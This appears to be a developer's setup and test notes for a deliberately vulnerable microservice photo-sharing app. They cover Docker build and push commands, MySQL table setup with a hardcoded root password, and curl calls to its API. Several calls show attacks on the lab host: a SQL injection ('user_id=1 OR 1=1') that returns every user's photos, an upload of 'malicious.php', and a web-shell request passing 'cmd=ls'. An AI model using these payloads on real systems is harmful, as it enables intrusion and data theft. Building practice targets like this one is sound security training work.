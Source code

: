 ```
docker build -t usatpath01/vulnerable-photo-app-frontend:latest ./frontend
docker build -t usatpath01/vulnerable-photo-app-api-gateway:latest ./api_gateway
docker build -t usatpath01/vulnerable-photo-app-user-service:latest ./user_service
docker build -t usatpath01/vulnerable-photo-app-photo-service:latest ./photo_service
docker build -t usatpath01/vulnerable-photo-app-notification-service:latest ./notification_service
docker build -t usatpath01/vulnerable-photo-app-recommendation-service:latest ./recommendation_service
docker build -t usatpath01/vulnerable-photo-app-analytics-service:latest ./analytics_service
```
```
docker push usatpath01/vulnerable-photo-app-frontend:latest
docker push usatpath01/vulnerable-photo-app-api-gateway:latest
docker push usatpath01/vulnerable-photo-app-user-service:latest
docker push usatpath01/vulnerable-photo-app-photo-service:latest
docker push usatpath01/vulnerable-photo-app-notification-service:latest
docker push usatpath01/vulnerable-photo-app-recommendation-service:latest
docker push usatpath01/vulnerable-photo-app-analytics-service:latest
```

```
from api container
apk add curl
curl http://user_service:5000/api/v1/users/test-db-connection
```

```
docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
USE users;
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(255) NOT NULL UNIQUE,
    is_admin BOOLEAN DEFAULT FALSE
);
INSERT INTO users (username, password, email) VALUES ('user1', 'user1_1234', 'user1@gmail.com');
```

```
docker exec -it e38172ae10a5 mysql -uroot -pinsecure_password
USE photos;
CREATE TABLE IF NOT EXISTS photos (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255) NOT NULL,
    user_id INT NOT NULL,
    upload_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP);

INSERT INTO photos (filename, user_id, upload_date) VALUES ('docker.png', 1, '2001-09-10');

```



# Endpoint
```
curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpassword"}'
{
  "message": "Login successful", 
  "status": "success", 
  "user": {
    "email": "testuser@example.com", 
    "id": 1, 
    "username": "testuser"
  }
}

curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpasswossrd"}'
{
  "message": "Invalid credentials", 
  "status": "error"
}

curl -X POST "http://10.5.20.45:8000/api/users/register"      -H "Content-Type: application/json"      -d '{"username":"newuser", "password":"newpassword", "email":"newuser@example.com"}'
{
  "message": "User registered successfully", 
  "status": "success", 
  "user": {
    "email": "newuser@example.com", 
    "id": 1, 
    "username": "newuser"
  }
}

curl -X POST "http://10.5.20.45:8000/api/users/register"      -H "Content-Type: application/json"      -d '{"username":"user1", "password":"user1_1234", "email":"user1@gmail.com"}'

curl -X POST "http://10.5.20.45:8000/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"user1","password":"user1_1234"}'

curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=1"

{
  "filename": "9e210176-6c49-42c4-8e44-136642a0b275.png", 
  "message": "File uploaded successfully", 
  "status": "success"
}

curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@test.png" \
     -F "user_id=3"

curl -X GET "http://10.5.20.45:8000/photos?user_id=1"
```
curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=3"
{"filename":"e1d70097-dc14-4ddf-948b-efc113304eac.png","message":"File uploaded successfully","status":"success"}

mysql> select * from photos;
+----+------------------------------------------+---------+---------------------+
| id | filename                                 | user_id | upload_date         |
+----+------------------------------------------+---------+---------------------+
|  1 | docker.png                               |       1 | 2001-09-10 00:00:00 |
|  2 | e1d70097-dc14-4ddf-948b-efc113304eac.png |       2 | 2024-09-20 15:37:39 |
|  3 | b40051e6-de40-42fb-aee5-82646e39f2a8.png |       3 | 2024-09-20 15:39:00 |
+----+------------------------------------------+---------+---------------------+
3 rows in set (0.00 sec)

 curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1"
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ]
  ], 
  "status": "success"
}


curl -X GET "http://10.5.20.45:8000/api/photos?user_id=1%20OR%201%3D1"
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ], 
    [
      2, 
      "e1d70097-dc14-4ddf-948b-efc113304eac.png", 
      2, 
      "Fri, 20 Sep 2024 15:37:39 GMT"
    ], 
    [
      3, 
      "b40051e6-de40-42fb-aee5-82646e39f2a8.png", 
      3, 
      "Fri, 20 Sep 2024 15:39:00 GMT"
    ]
  ], 
  "status": "success"
}

curl "http://10.5.20.45:8000/api/photos/5f03820f-9ec9-439c-aca2-bb5a00c8faf2.php?user_id=1&cmd=ls"

curl -X GET "http://10.5.20.45:8000/api/photos/b40051e6-de40-42fb-aee5-82646e39f2a8.png" --output downloaded_image.png

curl -X POST "http://10.5.20.45:8000/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@malicious.php" \
     -F "user_id=123"
{"filename":"b124236a-f516-4c1f-a022-408f32e071dc.php","message":"File uploaded successfully","status":"success"}


```
docker tag usatpath01/vulnerable-photo-app-analytics-service:v1 usatpath01/vulnerable-photo-app-analytics-service:v1
docker tag usatpath01/vulnerable-photo-app-notification-service:v1 usatpath01/vulnerable-photo-app-notification-service:v1
docker tag usatpath01/vulnerable-photo-app-api_gateway:v1 usatpath01/vulnerable-photo-app-api_gateway:v1
docker tag usatpath01/vulnerable-photo-app-frontend-service:v1 usatpath01/vulnerable-photo-app-frontend-service:v1
docker tag usatpath01/vulnerable-photo-app-photo-service:v1 usatpath01/vulnerable-photo-app-photo-service:v1
docker tag usatpath01/vulnerable-photo-app-recommedation-service:v1 usatpath01/vulnerable-photo-app-recommedation-service:v1
docker tag usatpath01/vulnerable-photo-app-user-service:v1 usatpath01/vulnerable-photo-app-user-service:v1
```
```
git push -u origin main
```